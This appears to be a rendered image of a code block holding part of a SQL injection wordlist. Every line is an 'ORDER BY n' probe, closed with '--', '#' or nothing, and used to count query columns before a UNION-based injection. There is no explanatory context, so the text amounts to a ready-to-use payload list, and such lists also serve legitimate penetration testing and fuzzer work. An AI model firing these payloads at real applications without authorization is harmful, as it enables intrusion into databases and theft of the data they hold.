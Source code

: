 ```
 ORDER BY 15-- 
 ORDER BY 16-- 
 ORDER BY 17-- 
 ORDER BY 18-- 
 ORDER BY 19-- 
 ORDER BY 20-- 
 ORDER BY 21-- 
 ORDER BY 22-- 
 ORDER BY 23-- 
 ORDER BY 24-- 
 ORDER BY 25-- 
 ORDER BY 26-- 
 ORDER BY 27-- 
 ORDER BY 28-- 
 ORDER BY 29-- 
 ORDER BY 30-- 
 ORDER BY 31337-- 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10# 
 ORDER BY 11# 
 ORDER BY 12# 
 ORDER BY 13# 
 ORDER BY 14# 
 ORDER BY 15# 
 ORDER BY 16# 
 ORDER BY 17# 
 ORDER BY 18# 
 ORDER BY 19# 
 ORDER BY 20# 
 ORDER BY 21# 
 ORDER BY 22# 
 ORDER BY 23# 
 ORDER BY 24# 
 ORDER BY 25# 
 ORDER BY 26# 
 ORDER BY 27# 
 ORDER BY 28# 
 ORDER BY 29# 
 ORDER BY 30#
 ORDER BY 31337#
 ORDER BY 1 
 ORDER BY 2 
 ORDER BY 3 
 ORDER BY 4 
 ORDER BY 5 
 ORDER BY 6 
 ORDER BY 7 
 ORDER BY 8 
 ORDER BY 9 
 ORDER BY 10 
 ORDER BY 11 
 ORDER BY 12 
 ORDER BY 13 
 ORDER BY 14 
 ORDER BY 15 
```